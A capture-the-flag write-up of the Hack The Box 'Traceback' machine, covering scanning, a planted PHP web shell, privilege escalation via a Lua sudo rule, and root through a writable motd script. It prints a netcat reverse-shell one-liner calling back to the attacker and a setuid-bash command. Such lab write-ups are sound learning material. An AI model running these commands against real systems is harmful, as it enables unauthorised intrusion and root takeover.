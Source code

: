 # Traceback

```
root@kali:/home/kali/htb/Traceback# nmap -p- -sV -sC 10.129.1.189 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-16 23:20 EDT
Nmap scan report for 10.129.1.189
Host is up (0.030s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 96:25:51:8e:6c:83:07:48:ce:11:4b:1f:e5:6d:8a:28 (RSA)
|   256 54:bd:46:71:14:bd:b2:42:a1:b6:b0:2d:94:14:3b:0d (ECDSA)
|_  256 4d:c3:f8:52:b8:85:ec:9c:3e:4d:57:2c:4a:82:fd:86 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Help us
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.21 seconds
root@kali:/home/kali/htb/Traceback# 
```

On the web page I find a comment in the source code:

```
<!--Some of the best web shells that you might need ;)-->
```


I try all the php shells I can find on my machine. And then I google for php web shells.

I eventually find https://github.com/TheBinitGhimire/Web-Shells/tree/master/PHP and try them all

https://github.com/TheBinitGhimire/Web-Shells/blob/master/PHP/smevk.php works, and I try the default admin/admin creds.

And it works.

I connect with `mknod /tmp/backpipe p; /bin/sh 0</tmp/backpipe | nc 10.10.14.42 1337 1>/tmp/backpipe`


And on the listener:

```
root@kali:/home/kali/htb/Traceback# nc -nlvp 1337
Listening on 0.0.0.0 1337
Connection received on 10.129.1.189 52574
whoami
webadmin
id
uid=1000(webadmin) gid=1000(webadmin) groups=1000(webadmin),24(cdrom),30(dip),46(plugdev),111(lpadmin),112(sambashare)
script /dev/null -c bash
Script started, file is /dev/null
webadmin@traceback:/var/www/html$ ^Z
[1]+  Stopped                 nc -nlvp 1337
root@kali:/home/kali/htb/Traceback# stty raw -echo
nc -nlvp 1337me/kali/htb/Traceback# fg
             reset
reset: unknown terminal type unknown
Terminal type? xterm
webadmin@traceback:/var/www/html$ export TERM=xterm
webadmin@traceback:/var/www/html$ export SHELL=bash
webadmin@traceback:/var/www/html$ sudo -l
Matching Defaults entries for webadmin on traceback:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User webadmin may run the following commands on traceback:
    (sysadmin) NOPASSWD: /home/sysadmin/luvit
webadmin@traceback:/home/webadmin$ cat note.txt
- sysadmin -
I have left a tool to practice Lua.
I'm sure you know where to find it.
Contact me if you have any question.
webadmin@traceback:/home/webadmin$ 
```

I google luvit and find https://luvit.io/. so it's a lua CLI.

lua gtfobins https://gtfobins.github.io/gtfobins/lua/ tells me I can run `lua -e 'os.execute("/bin/sh")'`

```
webadmin@traceback:/home/webadmin$ sudo -u sysadmin /home/sysadmin/luvit
Welcome to the Luvit repl!
> os.execute("/bin/bash")
sysadmin@traceback:/home/webadmin$ whoami
sysadmin
sysadmin@traceback:/home/webadmin$ 
```

I upload and run pspy, and find some interesting things.

```
2021/03/17 06:32:01 CMD: UID=0    PID=18773  | /bin/cp /var/backups/.update-motd.d/00-header /var/backups/.update-motd.d/10-help-text /var/backups/.update-motd.d/50-motd-news /var/backups/.update-motd.d/80-esm /var/backups/.update-motd.d/91-release-upgrade /etc/update-motd.d/                                                                                                                  
2021/03/17 06:32:01 CMD: UID=0    PID=18772  | sleep 30 
2021/03/17 06:32:01 CMD: UID=0    PID=18771  | /bin/sh -c /bin/cp /var/backups/.update-motd.d/* /etc/update-motd.d/ 
2021/03/17 06:32:01 CMD: UID=0    PID=18770  | /bin/sh -c sleep 30 ; /bin/cp /var/backups/.update-motd.d/* /etc/update-motd.d/ 
```


going there I find that 80-esm is actually a shell script.

```
sysadmin@traceback:/var/backups/.update-motd.d$ cat 80-esm 
#!/bin/sh

SERIES=$(lsb_release -cs)
DESCRIPTION=$(lsb_release -ds)

[ "$SERIES" = "precise" ] || exit 0

[ -x /usr/bin/ubuntu-advantage ] || exit 0

if ubuntu-advantage is-esm-enabled; then
    cat <<EOF
This ${DESCRIPTION} system is configured to receive extended security updates
from Canonical:
 * https://www.ubuntu.com/esm
EOF
else
    cat <<EOF
This ${DESCRIPTION} system is past its End of Life, and is no longer
receiving security updates.  To protect the integrity of this system, it’s
critical that you enable Extended Security Maintenance updates:
 * https://www.ubuntu.com/esm
EOF
fi
echo
sysadmin@traceback:/var/backups/.update-motd.d$ locate motd
/etc/update-motd.d
/etc/default/motd-news
/etc/systemd/system/timers.target.wants/motd-news.timer
/etc/update-motd.d/00-header
/etc/update-motd.d/10-help-text
/etc/update-motd.d/50-motd-news
/etc/update-motd.d/80-esm
/etc/update-motd.d/91-release-upgrade
/home/sysadmin/.cache/motd.legal-displayed
/lib/systemd/system/motd-news.service
/lib/systemd/system/motd-news.timer
/lib/systemd/system/motd.service
/lib/x86_64-linux-gnu/security/pam_motd.so
/usr/lib/ubuntu-release-upgrader/release-upgrade-motd
/usr/share/base-files/motd
/usr/share/doc/util-linux/examples/motd
/usr/share/man/man5/motd.5.gz
/usr/share/man/man5/update-motd.5.gz
/usr/share/man/man8/pam_motd.8.gz
/var/backups/.update-motd.d
/var/backups/.update-motd.d/00-header
/var/backups/.update-motd.d/10-help-text
/var/backups/.update-motd.d/50-motd-news
/var/backups/.update-motd.d/80-esm
/var/backups/.update-motd.d/91-release-upgrade
/var/cache/motd-news
/var/lib/systemd/deb-systemd-helper-enabled/motd-news.timer.dsh-also
/var/lib/systemd/deb-systemd-helper-enabled/timers.target.wants/motd-news.timer
/var/lib/systemd/timers/stamp-motd-news.timer
sysadmin@traceback:/$ cd /etc/update-motd.d/
sysadmin@traceback:/etc/update-motd.d$ ls -la
total 32
drwxr-xr-x  2 root sysadmin 4096 Aug 27  2019 .
drwxr-xr-x 80 root root     4096 Mar 16  2020 ..
-rwxrwxr-x  1 root sysadmin  981 Mar 17 06:34 00-header
-rwxrwxr-x  1 root sysadmin  982 Mar 17 06:34 10-help-text
-rwxrwxr-x  1 root sysadmin 4264 Mar 17 06:34 50-motd-news
-rwxrwxr-x  1 root sysadmin  604 Mar 17 06:34 80-esm
-rwxrwxr-x  1 root sysadmin  299 Mar 17 06:34 91-release-upgrade
sysadmin@traceback:/etc/update-motd.d$ 
```

So we have write access to the motd script.

I added `chmod 4755 /bin/bash` to the top of the script, which makes the bash setuid, and allows anyone to execute it.

```
root@kali:/home/kali/htb/Traceback# ssh sysadmin@10.129.1.189
#################################
-------- OWNED BY XH4H  ---------
- I guess stuff could have been configured better ^^ -
#################################
Enter passphrase for key '/root/.ssh/id_rsa': 

Welcome to Xh4H land 



Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Wed Mar 17 06:42:08 2021 from 10.10.14.42
$ /bin/bash -p
bash-4.4# whoami
root
bash-4.4# 
```

## Comparing myself to the official writeup:

they collect some web shell names in a text file and run it on a gobuster after finding the website.

they get a reverse shell with python3

they find the sudo lua file and get the sysadmin user.

they ssh in and use psy to find the motd backup.

this leads them to the motd files, which they modify to reverse shell back. They make sure to run this in the bg with `&`so it doies not halt ssh.

they gain root.

## How to stop this exploit:

The initial foothold was granted to us by a previous hacker. I assume the sudo lua cli was there previously. Which is bad practice. No user other than root should have any root access.

this also extends to the motd files. Which had been modified by the previous hacker, so I don't know if they were accessible like that earlier.